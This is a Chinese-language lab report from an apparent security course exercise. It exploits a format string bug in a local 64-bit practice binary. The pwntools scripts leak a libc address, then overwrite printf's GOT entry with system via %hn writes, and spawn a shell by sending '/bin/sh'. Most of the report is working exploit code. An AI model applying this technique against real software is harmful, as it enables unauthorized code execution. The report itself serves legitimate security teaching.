 # 格式化字符串漏洞实验报告

## 考点

- 格式化字符串漏洞利用
- 对64程序与32位程序区别的理解
- 覆写got表地址

## 实验过程

- 使用checksec, file, ldd等命令查看程序信息：

![基本信息](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\format_string\images\基本信息.png)

​		可见程序为64位，启动了DEP保护，动态链接。

- 使用patchelf修改libc文件。

![patchelf](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\format_string\images\patchelf.png)

- 使用ida库打开程序，反编译。

![main](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\format_string\images\main.png)

​		可以发现`printf(buf)`代码存在格式化字符串漏洞。

- 构造python脚本进行gdb调试：

```python
from pwn import *

context(arch="amd64", log_level="debug")
p = process("./format_string")

payload = flat(b"%1$p")
gdb.attach(p, "b *0x4006AD")
p.sendlineafter("Format String\n", payload)

p.interactive()
```

​		`%1$p`表示输出第一个参数的指针形式输出![gdb](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\format_string\images\gdb.png)

​		查看栈中情况，可以发现`_libc_stat_main+240`地址，计算得到该地址为第26个参数（64位程序需要注意前6个参数会在寄存器中）。因此要泄漏`libc`地址，可以利用`%25$p`。

- 获取libc基址后，可以获取libc中的`system`函数地址。然后可以通过修改printf函数got表的方式来使程序在执行`printf`函数转去执行`system`函数，并且以输入`"/bin/sh"`字符串达到执行函数`system("/bin/sh")`的目的。
- 由于64位程序中函数地址高位为`\x00`，因此会导致printf函数输出时截断，所以构造payload时printf函数地址需要放在末尾，然后由于64位地址如果使用`%n`直接对整体进行修改的话，会造成printf输出字符数目过大，耗时且易崩溃。所以考虑使用`%hn`来进行两字节的修改。
- 构造payload，根据system函数的地址分两次修改。

```python
# flag: tmp1 < tmp2时为True
# tmp1: 高两字节， tmp2: 低两字节
if flag == True:
    fmt = flat(b'%', tmp1, b'c', b'%10$hn', b'%', tmp2, b'c%11$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got+2, printf_got)
else:
    fmt = flat(b'%', tmp2, b'c', b'%11$hn', b'%', tmp1, b'c%10$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got, printf_got+2)
```

​		发送payload后栈情况：

![payload-gdb](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\format_string\images\payload-gdb.png)

​		执行printf函数后，可见printf函数got表地址已被修改为system函数地址，然后输入`"/bin/sh"`字符串，即可返回shell。

![payload-gdb-1](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\format_string\images\payload-gdb-1.png)

- 最终python脚本如下：

```python
from pwn import *

context(arch="amd64", log_level="debug")
p = process("./format_string")

# 获取read函数在libc中偏移
libc = ELF("./libc-2.23.so")
system_offset = libc.symbols['system']

# 泄漏libc地址
payload = flat(b'%25$p')
gdb.attach(p, 'b *0x4006AD')
p.sendlineafter("Format String\n", payload)
libc_addr = int(p.recvline(), 16) - 0x20840  # 0x20840
success(hex(libc_addr))

system_addr = libc_addr + system_offset
print(hex(system_addr))

flag = True
tmp = str(hex(system_addr))
print(tmp)
tmp1 = tmp[6:10]
tmp2 = tmp[10:14]
tmp1 = int(tmp1, 16)
tmp2 = int(tmp2, 16)
if tmp1 > tmp2:
    flag = False
    tmp1 = tmp1 - tmp2
else:
    flag = True
    tmp2 = tmp2 - tmp1
print(tmp1)
print(tmp2)
tmp1 = str(tmp1)
tmp2 = str(tmp2)


# 修改got表
elf = ELF("./format_string")
printf_got = elf.got["printf"]
print(printf_got)
if flag == True:
    fmt = flat(b'%', tmp1, b'c', b'%10$hn', b'%', tmp2, b'c%11$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got+2, printf_got)
else:
    fmt = flat(b'%', tmp2, b'c', b'%11$hn', b'%', tmp1, b'c%10$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got, printf_got+2)

p.send(payload)

# 发送"/bin/sh"字符串
payload = flat(b"/bin/sh")
p.send(payload)

p.interactive()
```



## 结果

![result](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\format_string\images\result.png)